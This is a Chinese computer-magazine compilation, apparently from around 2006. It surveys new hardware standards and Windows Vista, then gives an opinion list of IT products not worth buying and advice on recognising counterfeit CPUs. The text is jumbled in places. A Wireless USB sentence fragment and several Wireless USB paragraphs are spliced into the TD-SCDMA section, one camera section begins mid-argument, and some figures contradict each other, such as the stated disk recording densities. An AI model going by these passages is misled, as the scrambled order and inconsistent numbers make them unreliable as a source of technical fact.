AA及16AF的反锯齿效果，实现叹为观止的视觉效果和图形质量，令玩家享受到极致高清（HD）的游戏体验。

#### 2. 硬件加速物理运算技术

在第一块3D加速卡Voodoo出现以前，大多数的3D场景和光影效果都是交由CPU来模拟运算出来的，因此能够实现的3D效果相当有限，当时的3D游戏只是简单在2D平台上增加了场景视角，比起真实的三维环境来仍相去甚远，但是要实现这一切单独依赖CPU的模拟运算显然是不现实的，这时Voodoo为我们带来了3D加速技术，各种滤镜效果、各向异性过滤、抗锯齿等3D特效技术使我们第一次领略到3D游戏的美妙，这是一次由2D显示技术向3D显示技术的革命。随后NVidia公司推出的内置硬件T&L（几何转换和光源处理）引擎的GPU图形处理芯片，第一次将3D图形加速运算从CPU通用运算当中分离出来，大幅提升显卡3D性能并降低了CPU的负担，这是一次3D硬件加速的革命。当越来越多的游戏带给人类越加瑰丽、复杂的3D场景时，不能穿透的灌木丛、撞不破的高速公路护栏以及毫无真实感可言的场景贴图，都让游戏玩家感到丝丝的遗憾。当然技术发展是永无止境的，为了使游戏中的画面更加的真实，美国半导体生产厂商AGEIA推出了硬件加速物理运算技术，也即用于游戏中的物理加速引擎PPU。

下面让我们首先了解一下物理加速引擎PPU（Physics Processing Unit）。PPU是一种专门设计的用来加速物理模拟算法执行的处理器产品。它能加速的模拟算法包括刚体动力学、碰撞检测、流体模拟、软性物体和物体破裂模拟。

由于CPU主要是针对通用性运算为目的，并未对某方面的运算做单独的优化设计，因此在CPU进行图形化运算时就会存在速度的快慢问题；而GPU则将设计重点放在了图像的渲染效果以及视频输出上，因此GPU在进行3D运算时就存在画面效果的优劣问题；PPU则有着全新的内部构架，PPU将拥有软、固质体动力、泛用碰撞侦测、有限元素分析、流体动力、毛发模拟、布料模拟等技术特效，并将设计的重点放在了突出“真实性”的物理运算上。因此，未来的3D运算将从现有的CPU、GPU配合的方式变为CPU、PPU和GPU三者共同协作：PPU负责单独的物理反应运算，GPU负责进行图像的渲染和显示输出，CPU则负责对两者之间的综合协调。通过这种协调分工，来实现CPU、GPU和PPU处理各自在游戏中最擅长的部分。


#### 3. HDCP 高带宽数字内容保护技术（High-bandwidth Digital Content Protection）

为了适应未来高清数字音视频传输所需的高带宽，日立、松下、飞利浦、硅化图像Silicon Image、索尼、汤姆逊、东芝共7家公司联合制定开发了高清多媒体接口HDMI（Hi-Definition Multimedia Interface）。HDMI是一种高清数字接口标准，支持很高的传输带宽，可以传输无压缩高清晰实时数字视频和音频信号。为了对HDMI传输的高清晰数字音视频内容进行保护（Content Protection），就出现了高带宽数字内容保护技术HDCP（High-bandwidth Digital Content Protection）。

HDCP技术规范是由英特尔牵头开发的一项针对数字显示接口的版权保护技术，可以对通过HDMI接口传递的高清数字信号进行加密。支持HDCP技术的设备输出端和接收端都存储一个可用密钥集，可以对发送的内容加密，或者对接收的信号解密。如图8即是电脑多媒体系统处理HDCP技术的全过程。

微软在即将推出的Windows Vista操作系统中对HDCP有强制要求，系统内加入了一项“保护性内容输出管理协议OPM”，负责对输出数字信号的显示卡和接收端的显示器/投影机等设备强制执行HDCP检测，其中任何一项不符合要求，用户在观看受HDCP技术保护的数字内容时就可能导致系统只输出低质量视频，甚至无信号输出。


我们可以预期，Windows Vista的到来将会推动显示系统进行革命性升级，新一代视频编码、解码技术将带来优秀的高清视频回放质量，同时支持WGF2.0/DirectX10的新一代产品显卡及物理加速卡也将使游戏体验亦幻亦真。2006年显示领域各种新技术也许还只是处于技术孕育阶段，在即将到来的新的一年里，值得我们期待的新技术会更多！

### 三、存储篇

#### 1. 垂直记录PMR ( Perpendicular Magnetic Recording ) 技术

从50年前IBM推出第一块商用硬盘驱动器RAMAC以来，磁盘容量已经从最初的5MB飞升到目前的300GB，单碟容量也已经突破100GB，磁记录密度达到100Mbit/平方英寸，这已接近纵向记录技术所能达到的理论极限，受到超顺磁效应的限制，采用目前技术条件下进一步提高硬盘容量已经十分困难。为推动硬盘技术继续发展，各大硬盘厂商推出了垂直记录PMR ( Perpendicular Magnetic Recording ) 技术。这项技术可以使得磁记录密度达到230GB/平方英寸，几乎是现有磁记录密度的两倍。

在采用垂直记录技术以前，硬盘一直采用磁场的磁化方向与盘片表面平行的纵向记录方式，如图9所示，硬盘的盘片好比一个二维的平面，磁单元沿着盘片旋转的方向排列，磁极相邻，首尾相接。整整一圈下来，就是一个磁道，整张硬盘盘片就是由这些互为同心圆的全部磁道组成。

所谓“垂直记录”，是相对于目前硬盘制造领域被广泛使用的“纵向记录”存储方式而言的。垂直记录的数据为垂直排列，垂直于磁盘，这允许磁盘上有额外的空间来存储更多数据位。

垂直记录技术与纵向记录方式相比技术优势十分明显：首先，磁粒子的排列方式与盘片（软磁底层）垂直，因而占用的盘片表面积减小，在相同的磁盘面积内垂直记录硬盘可以容纳更多的磁粒子，也即磁盘的单位存储容量获得提升，使用垂直记录技术的希捷Momentus 5400.3的存储面密度达到了132GB/平方英寸；其次，采用垂直记录技术进一步提升了硬盘驱动器的性能。采用新的数据排列方式使同一时间内磁头可以读取更多的数据量，从而可以降低磁头的寻道频率，减少了磁盘的平均寻道时间，提高内部传输速率，因此无需增加转速就能提高硬盘速度性能；此外，垂直记录减少了磁粒子和盘片之间的接触面积，可以防止盘片的热量过多地传导给磁性记录物质，强化数据对于热衰退的阻抗能力，所以能提升硬盘稳定性和可靠性。


图10为希捷科技（Seagate Technology）发布的首款采用垂直记录（perpendicular recording）技术的2.5英寸移动型硬盘——最高容量达160GB的笔记本硬盘Momentus 5400.3。


垂直记录技术同样为硬盘进军消费电子领域提供了有力武器。今后几年里，我们很快会看到容量为40GB的1英寸硬盘和容量为6至8GB的0.85英寸微硬盘，这些具有大存储量的微硬盘将会广泛用于拍照手机、MP3、数码摄像机等数码设备当中。有行业分析师预测称，到2008年，用于消费电子的硬盘占总出货量的百分比将从2003年的9%和2004年的15%增长到40%。因此，未来的5～10年，垂直记录将会成为未来硬盘行业的主流技术。

#### 2. 蓝光/HD-DVD：新一代光存储标准

目前主流的光存储技术为DVD标准，单碟容量为4.7GB，可以存储约133分钟标准清晰度的视频内容或者同容量的数字信息。随着宽带网络的普及以及高清晰度的影音内容的流行，现有的DVD光盘容量仅能容纳半个小时左右的节目内容，这就为催生下一代光存储技术提供了外部基础。按照HDTV标准，压制2个小时的高清电影或者电视节目所需的存储空间在20GB左右，因此，下一代DVD存储技术所具备的先决条件就是超大存储容量。为了实现这一点，新一代DVD技术均选用波长为450nm的蓝紫色激光作为读写光源，同时通过缩小光盘轨道间距以及记录单元凹槽的直径来增加光盘容量。

目前比较成熟的下一代DVD存储技术主要有东芝与NEC主导的HD-DVD技术和索尼与松下推出的蓝光（BD）技术。

Blu-ray Disk（蓝光DVD）标准是由索尼、松下、日立、先锋、夏普、三星、LG、飞利浦以及法国的汤姆逊为代表的蓝光光盘组织制定，蓝光光盘(BD-ROM)技术采用波长为405nm的蓝紫色激光，通过广角镜头上比率为0.85的数字光圈，使聚焦的光点尺寸进一步缩小。而且蓝光光盘盘片的光学透过层厚度为0.1mm，这样可以减少盘片在转动过程中由于倾斜而造成的读写异常或错误，使得盘片数据的读取更加容易，并为极大地提高存储密度提供了可能，但是为了保护盘片数据层必须使用光盘盒。单面单层容量23.3/25/27GB，单面双层50GB，采用MPEG-2作为流媒体的压缩方式。目前支持蓝光（BD）标准的公司主要包括苹果、戴尔、惠普、三菱电子、TDK4、迪斯尼、二十世纪福克斯及派拉蒙等公司。

HD-DVD（High Definition DVD即高解析DVD）标准是由东芝和NEC主导，经负责制定DVD规格的DVD论坛（DVD Forum）批准通过的新一代DVD光存储标准。HD-DVD技术通过将激光波长从DVD的650nm缩短至405nm，将透镜开口率增大至0.65，将光束点面积大约减少到了DVD的1/3，实现了大容量存储。HD-DVD光盘分为只读型及可复写型两种，只读型单面单层为15GB、单面双层为30GB；单面双层可复写型20GB、单面双层则为40GB，采用WMV-HD和H.264格式。HD-DVD标准与蓝光标准相比具有明显的优势，那就是可以继续使用传统的红光DVD生产设备进行生产，从而降低由当前DVD转换至HD-DVD时所需要的投资成本，同时驱动器、播放器和盘片的生产商可以根据市场需求设计出同时兼容红光与HD-DVD技术的产品。目前HD-DVD阵营的主要支持者包括微软、Intel、环球、三洋等公司。

东芝的HD-DVD与现行DVD规格非常相似，DVD光盘厚1.2mm，由两片0.6mm的基板粘合而成，激光照射在正中间的0.6mm覆盖层读取记录内容，记录点长为0.2μm；索尼提出的蓝光（BD）标准用蓝光激光照射距光盘表面0.1mm处的记录层来读取数据，记录点长为0.14μm，在接近光盘表面的地方设置记录层，激光的透过量相应提高，比起照射深0.6mm的覆盖层，可以通过更小的记录点来提高记录密度。

为了能让激光照射在0.1mm覆盖层，索尼在激光与光盘之间设置了两枚透镜，使激光的折射加大，以便准确地照射在记录点上，同时索尼通过在距光盘表面75 μm与0.1mm处各设置一个记录层，从而将记录容量一举提高到了50GB。还有，虽然两种标准的光盘都是像山谷那样的凸凹槽型，但东芝的方案是在凸凹槽上均有记录点，而索尼只是在凹槽上记录，如图11。


同当前DVD技术相比，下一代DVD标准可以为用户带来更清晰的图像、更高质量的音频、更大的容量以及更有效的版权保护。HD-DVD标准和蓝光（BD）标准在技术上各有特点，互有优势，HD-DVD标准获得了DVD论坛、微软以及多家好莱坞电影制片厂的支持；而蓝光标准则获得了大多数消费电子厂商和高科技公司的支持。未来两者仍将在市场上共存一段时间，直至兼容性标准建立。

### 四、通信篇

#### 民族标准：TD-SCDMA，第三代移动通信技术

年初，信息产业部发布公告称3G三大国际标准之一的“中国标准”TD-SCDMA为我国通信行业标准，消息一经发布便立即引起了业界的高度关注。这意味着TD-SCDMA标准技术方案已经成熟，能够指导企业进行制造生产，具备独立组网的能力，同时也进一步表明政府对TD-SCDMA的扶持态度。

TD-SCDMA的中文含义为时分同步码分多址接入，该项通信技术也属于一种无线通信的技术标准，它是由中国提出并被国际电信联盟所接受的第三代无线通信标准，与欧洲支持的WCDMA和美国的CDMA2000成为未来全球第三代移动通信标准的3个最主要的竞争者。该项标准的主要技术集中在大唐公司手中。

TD-SCDMA标准是我国拥有自主知识产权的3G标准。从技术层面上讲，TD-SCDMA具有频谱利用率高的优势，从移动运营商角度来说，频谱利用率高意味着单位用户成本降低。其次，作为一个拥有自主知识产权的技术标准，可以大大减少国内企业对国外知识产权的依赖，节省大量使用国外技术标准所产生的知识产权使用费，降低运营商的网络建设费用以及设备和终端生产企业的生产成本，最终也降低了广大消费者的使用费用。

图12中为采用TD-SCDMA标准的手机终端。

目前TD-SCDMA第二轮外场测试已经结束，测试结果表明：TD-SCDMA的关键技术都已在设备中实现并得到全面验证；TD-SCDMA系统功能和性能达到设计指标要求，设备运行稳定；终端已经实现了绝大部分功能和业务；TD-SCDMA完全具备独立组网能力。新一轮的TD-SCDMA准商用测试也已经提上日程。据悉，大约20万个政府及行业用户将会成为国内首批TD-SCDMA的用户，以测试手机通话质量、信号覆盖等。


夺取设备的控制权或者获取敏感信息。此外，无线USB将会沿用传统USB技术的“睡眠”、“监听”以及“唤醒”三种工作状态，以此达到节能的目的。

由于中国政府承诺将要在2008年奥运会期间提供3G服务（至少要在6个城市实现商用），目前留给政府部门决策的时间不多了，因为运营商必须提前一年进行3G网络建设和测试业务应用。因此，信息产业部目前已经开始为3G上马进行多方面的准备。相关人士甚至预测，在今年10月份召开的3G峰会上，信息产业部将公布TD-SCDMA最终测试结果；随后，也就是年底将发放3G牌照。

无线USB同时还定义了一种具有双重身份的新设备类型：dual-role设备。该设备具有USB主机和USB设备双重功能，既可以作为USB设备使用，与USB主机互连，也可以充当USB主机，互接其他的USB设备。未来数码相机与打印机之间、影音存储设备与影音播放设备之间、MP3播放器与无线音箱之间、数码摄像机与DVD刻录机之间、游戏主机与显示设备之间、PDA与大容量存储设备之间都可以直接建立连接，进行无线数据传输，而无需第三方作为中介。

TD-SCDMA标准对于中国电信业的意义已经远远超越了这项技术本身，它是我国通信史上第一个完整的通信技术标准，是我国移动通信领域的一次创举，也是中国对全球第三代移动通信发展所做出的巨大贡献。它的出现打破了欧美在通信技术领域内的标准垄断，增加了我国在国际高新技术领域的话语权，也标志着中国在移动通信领域已经进入世界领先之列。

### 五、无线体验篇

#### 无线USB（WUSB）技术

图14为贝尔金公司在美国市场推出的CableFree USB hub F5U301套装。该产品使用了飞思卡尔的UWB技术，由一个无线USB hub和一个配套的USB dongle组成。用户只需要将USB dongle插入自己的电脑当中，当USB外围设备与无线hub建立连接后，电脑就会以为设备已经插入。这样，即使外围设备和电脑远隔数米甚至数十米，仍然可以如同连接在一起一样照常使用，使电脑与外设之间的数据交换摆脱线缆的制约，进而可以随处放置普通USB设备，而笔记本用户更是可以在房间内任意移动，并时刻保持与固定USB设备的访问连接。

目前USB技术已经成为PC与众多数码设备进行数据交换的通用技术标准，由于外部设备与电脑的数据传输都要通过线缆进行有线连接，因此极大限制了USB设备访问的便捷性，为了帮助用户摆脱各种数据线的烦扰，由Agere Systems、惠普、英特尔、微软、NEC、飞利浦半导体和韩国三星组成的WUSB促进联盟（Wireless USB Promoter Group）推出了无线USB（Wireless USB）技术，旨在取代现有的有线USB技术。

普通USB设备只需要在内部安装无线接收和发射装置即可以实现数据的无线传输。而无线USB的接收和发射装置可以设计成为集成度很高的芯片产品，甚至集成到芯片组当中，同时每台PC只需要一个WUSB端口即可以实现无线USB访问，相对于有线USB技术每个连接都需要一个独立端口而言，实现成本相当低廉。因此未来采用无线USB技术的设备必将大行其道。

WUSB的基本连接原理是网络集线器和拓扑，如图13所示。在所有的通过主机传输的数据，都会连接上WUSB Host（WUSB主机），然后分配给每个设备不同的地址和带宽，它们之间通过点对点来传输数据，WUSB主机和WUSB设备之间采用定向传输方式。无线USB技术在3至4米的传输距离内提供了最高480Mb/s的传输速率，即使在10米的距离，也可以支持最高110Mb/s的传输速率。在数据安全性方面，无线USB将会专门加入安全措施来防止入侵者


### 六、软件应用篇

#### Windows Vista：值得期待的产品
Vista 是微软历史上开发周期最长的一款操作系统。微软在 2001 年发布 Windows XP 之后便开始新一代操作系统也即 Longhorn 的开发计划，随后微软正式对外发布了取代 Windows XP 的新一代操作系统——Windows Longhorn 并将其更名为 Windows Vista，标志着新一代操作系统浮出水面。Vista 也是微软历史上最具悲剧色彩的产品开发项目。先是开发计划一再受挫，导致发布日期一推再拖，2006 年转瞬将逝，这已经是 Vista 开发的第五个年份，其次是来自欧盟及竞争对手的麻烦不断，以致让人怀疑 Vista 是否会再次跳票。
Vista 操作系统肩负着微软互联网时代的理想，承载着整个 Live 战略的核心，微软希望能够将 IE 浏览器、Office 办公应用及一系列 Internet 应用通过 Vista 这一平台整合为一个整体，最终将桌面操作系统和互联网融合为用户的最佳体验。从新操作系统的命名也可以看出，Vista 在包括英语在内的多数语言中均有“展望、回想”等意，微软对于 Vista 系统的期望可见一斑 (图15)。

Vista 将于 2006 年年底发布，是 Windows XP 上市以来 Windows 操作系统最重要的一次升级。作为微软的最新操作系统，Windows Vista 第一次在操作系统中引入了“Life Immersion”概念，即在系统中集成许多人性的因素，一切以人为本。使得操作系统尽最大可能贴近用户，了解用户的感受，从而方便用户。微软宣称，Vista 将大幅度提升系统安全性，并简化桌面搜索，为用户提供更加简洁的界面。
2006 年 10 月，微软已经推出 Vista 系统的最终测试版本 Windows Vista Release Candidate 2 版本，并将按计划推出 Vista 系统，Vista 的步伐已经离我们越来越近。为了便于用户在购买新 PC 机过程中轻松分辨哪些机器可以支持新一代 Vista 操作系统，微软启动了 Windows Vista ready 计划。微软要求支持 Vista 系统的电脑内存至少要在 512MB 以上；显卡要支持 DirectX 9c 和 Windows Display Driver Model（WDDM），至少 64MB 显存；在硬盘方面，Windows Vista 要求硬盘至少是拥有 2MB 缓存的 7200 转 IDE 硬盘；并且要求 PC 必须具备网卡。只要符合这项标准便可以贴上微软提供的 Windows Vista ready 标签。但需要注意的是，即使贴上了 Windows Vista ready 标签，有些 PC 仍不能运行所有版本的 Vista 系统。众所周知，Vista 分为六个版本。其中 Windows Vista 家庭基础版不包含其他版本所具备的高级图形功能。而支持家庭基础版的 PC 仍被将贴上 Windows Vista ready 标签。
Windows Vista 将按照 Home 版和 Business 版分为两大类，同时 Home 版将细分为：Windows Starter 2007（初级版本）、Windows Vista Home Basic（初级家庭版，还有专门针对欧洲市场的 Home Basic N）、Windows Vista Home Premium（增强家庭版）、Windows Vista Ultimate（终极版）；Business 版也将分为两个个版本：Windows Vista Business（商务版，还有针对欧洲用户的 Business N）、Windows Vista Enterprise（企业版）。


## 不值得购买的IT产品

文 / 龚胜

如今市场上以数码设备和DIY配件为代表的各类IT产品琳琅满目，令人眼花缭乱，如果我们任凭厂商误导或自己感觉，盲目的去购买，很可能会误入陷阱，买到不值得购买的产品。这里就谈谈有哪些产品不值得购买。在正式行文前强调一下：事物发展是动态变化的，此时不值得购买的产品，也许过一段时间会成为值得购买的，反之亦然；同时这个问题也是因人而异的，某些朋友认为不值得购买的产品，可能对于另外的朋友却是非常值得购买。因此本文观点只代表在下一家之言，仅供大家拍砖、参考之用。

### 一、数码设备类

以数码相机、各类音视频播放设备为代表的数码设备现在发展势头已经超过了 DIY 配件，成为IT 消费品的主流。不过数码设备也最容易买到“物非所值”的产品，下面就为大家列出一些典型的代表。

#### 高价MP4

这类产品通常用途单一，一般就是用于播放视频文件，但其价格比较高。我认为如果超过 1500 元的话，就没有什么购买价值了，因为在这个价位上我们可以购买一台掌上电脑，不仅能够播放更多格式的媒体文件，而且扩展能力和综合功能要强大很多。除了 MP4，还有功能单一、价格高昂的移动 DVD（如果确有需要，建议买一台低档本本）之类，也不值得我们购买。

#### 硬盘MP3

在闪存价格暴跌的今天（不到 300 元就可以买到 1GB 的闪存 MP3 播放器了），你还会选择“体积大、发热大、耗电大、震动大”的“四大”硬盘类 MP3 产品吗？况且这类产品价格也不低。在数码设备存储介质竞争中，可以说目前闪存已经取得了压倒性的优势。作为一种半导体产品，闪存的容量/价格比，将全面超过微型硬盘。

#### 非开放系统GPS

这里不是指专用的 GPS 手持机（GPS 手持机有自己特定的用户群），而是目前市场上出现的某些车载民用 GPS 产品（具体就不点明了），这类产品不仅价格高昂，且功能单一。最致命的缺点是无法自行更新地图，或安装其他导航软件，可玩性大打折扣。与目前集成了 GPS 功能的 PPC 掌上电脑相比，非常不值得购买，只有完全的“电脑盲”才有购买必要。

#### 多功能拍录一体机

这类号称集成了“N 多功能”的“高科技”产品，其实像电子玩具。很多看了其名人做的电视直销广告而购买的用户常说后悔，曾一度在网上引发投诉狂潮。什么影音同步摄像、拍照、数码录音、电脑摄像头、移动存储、媒体播放器六合一一体，其实一样功能都做不好。现在“网易拍”的宣传势头好像不猛了，不过市场上类似产品还很多，除非是买来给儿子作玩具，否则一般不要考虑。

#### 高档非单反DC

现在市场上有不少价格超过 5 千元的高档消费级数码相机，实际上相近价位我们可以买到画质和扩展性都要好得多的数码单反。目前佳能、尼康等几大数码相机厂商似乎已经放弃了这类“消费旗舰” DC 产品的研发。而 SONY R1 无疑是一个失败的尝试，作为第一款配备 APS 画幅的非单反消费级产品，不仅价格比低价单反更高，而且其画质和对焦性能要比低价单反低很多，扩展性能低下就更不多提了。

#### 非光学防抖DC

但是相机ISO高了，噪点也就随之增加，虽然实现了防抖，但是对画质也产生了较大的影响（消费级数码相机的小尺寸 CCD，在高 ISO 下效果极差），这类产品是不值得购买的。

#### 使用磁带的DV

现在 DV 产品有一个明显发展趋势，就是开始使用 DV 带以外的存储介质，比如微硬盘和 DVD 光盘，甚至闪存卡。其中使用 DVD 光盘的产品已经比较成熟，目前价格和普通 DV 带的产品没有大的差异了。作为高科技的 DV 产品，如果还在使用几十年前就出现的 DV 带，未免有些不太合时宜了，在寿命、可靠性、使用方便性等方面都存在很多不足。如果不是特别在意价格，我认为目前使用磁带的 DV 已经是不值得购买的产品了。

## 二、DIY 配件类

DIY 配件的性能和价格发展变化太快，我们很难说某个具体的配件始终就不值得购买，这里只为大家谈几个主要原则，并举例说明之。

#### 最新出的配件不值得购买

除非你是狂热的 DIY 发烧友，且有足够的经济实力，否则最新推出的电脑配件大多是不值得购买的。我们回想一下，一块最新的 3D 显卡或高端 CPU 其价格往往会超过一台普通的整机。新产品不仅价格高，而且可能存在技术不成熟等问题，比如早期上市的部分 975X 主板尽管技术含量很高且价格高达 2K 左右，但由于供电模块设计的问题，甚至可能并不支持 Conroe2 处理器。这样花大价钱买来 975X 主板想“尝鲜”的朋友，不是成了冤大头吗？

#### 快要淘汰的产品不值得购买

当然凡事我们都不要走到极端，上面谈到最新上市的 DIY 配件，通常是不值得购买的，而快要淘汰的产品，哪怕价格再低，也不值得我们购买。比如“康宝”刻录机，在 DVD 刻录机价格高昂的时候，不失为好选择，但是现在 299 元就能买到 DVD 刻录机，价格便宜不了多少的康宝驱动器肯定就不值得大家购买了。再比如现在市场上还有一些不支持 PCI-E 接口的主板，我想没有特殊情况的话，也是不值得我们购买的。而随着液晶显示器价格急剧下跌，身躯庞大的 19 英寸以上的 CRT 显示器也是不值得购买的。

#### 非标准技术的产品不值得购买

在 DIY 配件上，非主流、非标准技术的产品我们也最好不要购买。历史上有很多生动的例子，比如在移动存储领域像 ZIP、LS-120、PD 等偏离标准航向，试图“另辟蹊径”的产品都被市场无情淘汰。而当年花大价钱购买了 850 主板 + RAMBUS 内存的用户，可能至今还有些欲哭无泪。而 3dfx 采用当时尚不成熟的 SLI 技术的 VOODOO5 甚至要了其老命。现在也有类似的例子，比如 nVIDIA 的 Geforce6200TC 系列显卡，试图走一条独立显卡和集成显卡之间的中立道路，在价格和性能上取得平衡，但实际结果是两头都未讨好，这类产品大家还是不要碰为妙。

#### 过渡期的产品不值得购买

DIY 技术发展非常迅速，有不少厂商会由于市场等原因而推出过渡产品，这类产品通常也是不值得购买的。目前一个典型例子就是19英寸宽屏液晶显示器。在宽屏液晶迅速升温后，奇美电子的液晶面板生产线以3.5代及4.5代为主，切割19英寸宽屏具有很高的价格优势，因此目前市售19英寸宽屏几乎都采用奇美面板，这类面板的色彩表现并不是十分理想。我们再看看19英寸宽屏液晶显示器面板的实际尺寸与分辨率，从实际尺寸看，19英寸宽屏的物理尺寸还没有17英寸液晶屏高，而且分辨率仅为1440×900=1296000像素，而17英寸及19英寸普屏的分辨率为1280x1024=1310720像素，可见19英寸宽屏在纵向像素和总像素上都要低于17及19英寸普屏的产品，每屏实际显示内容也要少于普屏。

目前市场分析人士普遍认为，19英寸宽屏液晶只是市场过渡产品，很快将被20英寸以上的宽屏液晶显示器取代。因此如果没有特殊原因，不建议大家购买19英寸宽屏液晶显示器。

### 三、电脑外设类

除了数码设备和DIY配件，有很多电脑外设也不值得我们购买。下面选择几个典型产品进行说明。

#### 低端扫描仪

如果你有数码相机，那么低端扫描仪是绝对不值得再购买的。数码相机可以很大程度上替代扫描仪的作用，包括进行OCR识别。数码相机输入图片的效率比扫描仪要高很多。使用特殊配件还可以翻拍底片。从一般家庭用户的要求来说，有了数码相机完全就不必再购买扫描仪了。当然在反转片扫描、工程图扫描等专业领域，数码相机还无法完全替代扫描仪。

#### 加墨不便的喷打

现在喷打价格都不算贵，但墨盒的价格却相当昂贵，甚至换一对墨盒就差不多可以重买一台打印机了。所以一款打印机的耗材价格无疑对打印机的选购具有决定性作用。墨盒的价格、是分体墨盒还是一体墨盒、墨盒是否与喷头一体、是否有兼容墨盒或填充墨水可以使用等，购买时都得认真考虑。如果一款喷打耗材昂贵且不能方便的添加墨水或使用连续供墨系统，那么对于普通家庭用户而言是不值得购买的。

#### 外置刻录机

目前一款外置DVD刻录机最差劲的也要1000大洋左右，且功能和性能通常较简单，而一款内置刻录机300来元就可以搞定，还大多具备兼容DVD-RAM格式、支持“光雕”等功能，再加一根几十元的“易驱线”，功能和外观都不比低价外置刻录机差。只要你不是特别追求外观和便携性能，那么价格昂贵的外置刻录机显然是不值得购买的。

#### 纯U盘

随着闪存价格的极速下跌，现在大容量U盘的价格也非常便宜了，但是从性价比和一物多用的角度看，单纯功能的U盘是不值得购买的，同样容量的产品，远不如多花几十元买一套袖珍读卡器+SD卡（尤其在你使用采用SD卡为存储介质的数码相机的情况下）或者带U盘功能的MP3播放器划算。

### 四、其他类别

IT产品种类是非常丰富的，除了上面提到的一些不值得购买的产品外，还有很多IT产品我们在购买前都应三思而行，核心就是认真考虑一下是否“值得”。

#### 品牌机

品牌机和兼容机之争，以及品牌机是否值得购买是个老话题了。尽管近几年来，在DIY的逼迫下，品牌机性价比有了一定提升，但是和兼容机相比，仍然存在很多不足，尤其是预装了正版操作系统的产品，性价比进一步降低，不建议家庭用户选择。笔记本方面，什么采用真皮外壳之类的“花拳绣腿”类产品，当然不值得我们购买，其他还有微软曾经狂推的平板电脑（Tablet PC），那也是相当的不值得购买。

#### “VIP版”的正版软件

虽然我们从保护知识产权的角度来说，鼓励大家使用正版软件，但很多正版软件价格实在是虚高，特别是推出的所谓“VIP版本”、“典藏版本”、“黄金版”等，又比普通的版本价格高出一大截。对于一般用户来讲，有基本功能的普通版本就够了，如果不是自己非常明白和清楚确实自己需要，就不要盲目地去购买所谓“最高版本”的软件。实事求是的说，目前很多所谓的正版软件并不值得一般用户购买，除了虚高的价格外，不少正版软件的品质也较差，功能上虚假宣传，产品繁复的加密措施，而且不能试用几天，买了可能用起来并不满意，但正版软件又不能随便退换，所以一定要了解清楚了再买。

#### 学习机

在“外语热”、“高考热”的推动下，目前市场上各种“学习机”成为学生用户购买的热点产品。其广告也打得铺天盖地。但是这类价格高达千元的产品究竟有多大的实际价值？恐怕更多只是给购买者一些心理上的安慰而已。其实用价格贵不了多少的掌上电脑配合适当软件，其功能可以比这些“学习机”更加强大和灵活。事实上无论什么产品，是否值得购买有一条重要规律：凡是狂打广告的产品都不值得我们购买。道理很简单，在这类产品的价格构成中，也许会有一半是广告支出，我们凭什么要为其广告买单？

#### 硬盘还原卡

如果你是网吧业主或学校机房管理员，可能还会在考虑购买硬盘还原卡，其实从技术角度和实际使用效果上看，硬盘还原卡都是不值得购买的产品，因为现在我们使用专门的硬盘数据保护软件，完全能达到硬盘还原卡的效果，还能获得更好的兼容性及稳定性。

不值得购买的IT产品拉拉杂杂就说了这么多，或许你有很多不同的看法，其实我们每个人心中都有不值得购买产品的“列表”，希望与大家多交流。

## 主流硬件辨真假

文 / 水月子

现在，几乎各个领域都弥漫着假冒伪劣的烟雾，让消费者拿着钱而发怵。特别是沾满高科技色彩的IT产品，这主要是带有技术色彩的产品即使是行家里手也不易鉴别，更别说普通消费者了。因此，提高保护意识，还需要提高鉴别能力，掌握鉴别方法。只有这样才能更好地保护自己，避免买假货（现在投诉的成本很高，既费钱又费精力，还生一肚子气），做到明明白白消费。下面我就列举一些主流电脑配件的鉴别方法，希望大家在购买的时候多加注意。

### 一、处理器辨真假

#### 1. Intel移动版CPU

现在不少朋友在装机的时候都喜欢采用移动版的CPU，特别是Intel的，这类CPU发热量和能耗都很低，而且性能也相当强劲，但是由于广大用户对于移动版CPU的认知远不如桌面版CPU，因此也就给了奸商机会去造假，因此目前市面上Intel的移动版CPU普遍存在着造假的现象。

我们先看看图1的CPU，这是一块经过Remark的移动版Pentium M 1600Mhz CPU，正品如图2所示。可以看到，经过Remark的CPU表面印刷情况非常糟糕，每个笔画中均有不同大小的气泡和断笔。对比一块正品的处理器，我们可以看到正品处理器表面印刷非常精致，字体边缘圆滑、工整。那么这款Remark过的处理器究竟是出自何方呢？原来很多奸商可以通过各种各样的渠道拿到Intel方面的测试版的处理器，这些处理器虽然频率都是一样的，但是印刷上面会有ES或者QS的字样，为了蒙骗消费者，奸商就把原来的QS或ES编号抹掉，当作正品来出售。不要以为测试版的处理器和正品的处理器频率一样就忽略了，事实上测试版的处理器运行的稳定性远不如正品，譬如出现无法安装Windows XP SP2或者某些应用软件的情况，大家一定要小心谨慎。另外我们也不排除有些奸商直接把测试版的CPU拿出来销售，上面还留有ES或者QS的标识（如图3），这时你就不要上当了。


另外目前还有一种移动版处理器的造假方法，那就是改装处理器封装。这是一个“技术含量”比较高的改装，就是把uFCBGA改装成uFCPGA封装直接安装在市售机器中，这种情况一般出现在低端的笔记本电脑之中。本身BGA封装是用在台式机电脑上面的，为了节约成本，某些低端笔记本厂商就把原本放在台式机上面的CPU改装成为PGA封装直接装在笔记本电脑上。这种改装可以说是极其粗糙的，CPU与插针的连接部分使用类似胶水的物质连接，插针PCB板的颜色也与正常CPU不同。这样的拙劣改装导致该处理器整体高度比正常产品高出将近1mm，这将会造成CPU散热部分的问题，如果散热器安置不当，则会在使用过程中直接压碎CPU核心（如图4）。因此如果可能的话，购买笔记本的时候最好要看看里面的CPU，或者干脆不要去买一些低端品牌的笔记本电脑。


#### 2. P4盒装CPU辨真假

很多朋友以为CPU的造假行为只出现在散装领域，殊不知现今的奸商已经把黑手伸向了盒装CPU领域，特别是Intel的Pentium 4。这听起来真的十分令人震惊，因为很多人在买盒装CPU的时候基本上都是不去仔细辨别的，这样上当受骗未免太不值得了，因此这里我就要介绍一下如何去识别造假的盒装P4。

首先，正品的外包装色泽鲜艳，印刷精美，纸盒韧性和硬度都很好。假盒装印制水平较差，甚至字迹还会出现模糊不清的情况。随着制假水平的提升，部分假盒装的外包装甚至可以以假乱真。也有部分‘假’盒装实际上是将原装处理器包装再次利用，这样的外包装自然也是不容易看出破绽的。

